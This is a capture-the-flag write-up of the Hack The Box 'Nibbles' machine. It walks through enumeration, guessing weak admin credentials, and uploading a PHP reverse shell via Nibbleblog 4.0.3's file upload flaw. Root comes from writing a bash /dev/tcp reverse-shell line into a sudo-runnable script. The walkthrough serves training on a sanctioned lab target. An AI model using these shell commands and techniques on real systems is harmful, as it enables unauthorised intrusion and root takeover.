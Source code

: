 ```yaml
---
title: "HTB: Nibbles Writeup"
date: 2025-08-20 08:00:00 +0000
categories: [CTF, HTB]
tags: [ctf, htb, easy, enumeration, privilege-escalation, web, linux]
author: "Saad Azil"
pin: false
---
```


![Nibbles Box](../assets/images/nibbles/NIBBLES.png)

**OS:** Linux  
**Difficulty:** Easy  
**Machine IP:** 10.10.10.75

Nibbles is a retired box on Hack The Box that provides a great introduction to common enumeration techniques, web application exploitation, and privilege escalation through file misconfigurations.

---

## Enumeration

The first step is to scan the target machine with `nmap` to identify open ports and services.

```bash
nmap -sV -sC -oN nmap_scan 10.10.10.75
```

![Nmap Scan](/assets/images/nibbles/nmap_scan.png)

The scan reveals two open ports:
- **Port 22:** SSH
- **Port 80:** HTTP

Before exploring the web server, I added the machine's IP to my `/etc/hosts` file to access it by its domain name, `nibbles.htb`.

![Domain Name](/assets/images/nibbles/domain_name.png)

Navigating to `http://nibbles.htb` in a browser initially shows a blank page. 
![Source Page](/assets/images/nibbles/source_page.png)

However, viewing the page's source code reveals a hidden directory: `/nibbleblog/`.
![Source Page](/assets/images/nibbles/web_view.png)

This directory leads to a blog powered by Nibbleblog.

![Blog Page](/assets/images/nibbles/blog_page.png)

In this Blog i find nothing, so i decided to do directory brute forcing using `ffuf` and the `common.txt` word list:

```bash
ffuf -u http://nibbles.htb/nibbleblog/FUZZ -w /usr/share/wordlists/dirb/common.txt
```
![Dir Enum](/assets/images/nibbles/dir_enum.png)

and we got some interesting hidden files and directories.
![Dir Enum Result](/assets/images/nibbles/dir_enum_result.png)

so i thought to begin with the `README` file, The file reveals the Nibbleblog version: `v4.0.3`.

![Readme](/assets/images/nibbles/readme.png)

A quick search for this version reveals a critical vulnerability: **Arbitrary File Upload**. To exploit this, we need to gain access to the admin panel, so i searched online for the default credentials but nothing there, so i came back to the website and i did some enumeration on the directories we got from our previous dir brute force, and we got the username of the `admin.php` on the `content` directory.
`content --> private --> users.xml`
![Username](/assets/images/nibbles/username.png)

about the password i didn't find nothing , so i thought to try manually to see if the admin panel may be has weak credentials , and after some guesses i ended up with :
- **Username:** `admin`
- **Password:** `nibbles`

## Gaining a Foothold

With admin access, I could now exploit the file upload vulnerability. The goal is to upload a reverse shell. I used a common PHP reverse shell script.

1.  **Login** to the admin panel at `http://nibbles.htb/nibbleblog/admin.php`.
2.  Navigate to **Plugins** → **My Image**.
3.  **Upload** the PHP reverse shell.

![Reverse Shell Upload](/assets/images/nibbles/reverse_shell.png)
![Reverse Shell Upload](/assets/images/nibbles/uploaded_image.png)

Once the shell is uploaded, set up a Netcat listener on your local machine:

```bash
nc -lvnp 6666
```

Then, access the uploaded shell at `http://nibbles.htb/nibbleblog/content/private/plugins/my_image/image.php` to trigger the connection.

![Get Shell](/assets/images/nibbles/get_shell.png)

I upgraded the shell for better stability:

```bash
script /dev/null -c bash
```

![Shell Upgrade](/assets/images/nibbles/shell_upgrade.png)

Now, as the `nibbler` user, I can grab the user flag from the home directory.

![First Flag](/assets/images/nibbles/first_flag.png)

---

## Privilege Escalation

To escalate privileges, I checked for `sudo` permissions:

```bash
sudo -l
```

![sudo](/assets/images/nibbles/sudo-l.png)

The output shows that the `nibbler` user can run `/home/nibbler/personal/stuff/monitor.sh` as `root` without a password.

I found a `personal.zip` file in the user's home directory, which I unzipped to find the `monitor.sh` script.

![Unzip The File](/assets/images/nibbles/the_zip_file.png)

Since I have write permissions on the script, I can overwrite it with a payload to get a root shell. I echoed a new reverse shell command into the script:

```bash
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.29/6666 0>&1'" > monitor.sh
```

![overwrote](/assets/images/nibbles/overrideFile.png)

I started another Netcat listener on port `6666` and executed the script with `sudo`:

```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```

![run the reverse shell](/assets/images/nibbles/run_the_reverse_shell.png)

This provides a root shell.

![get the root shell](/assets/images/nibbles/get_root_shell.png)

Finally, I could read the root flag.

![root flag](/assets/images/nibbles/root_flag.png)

And we are done :)
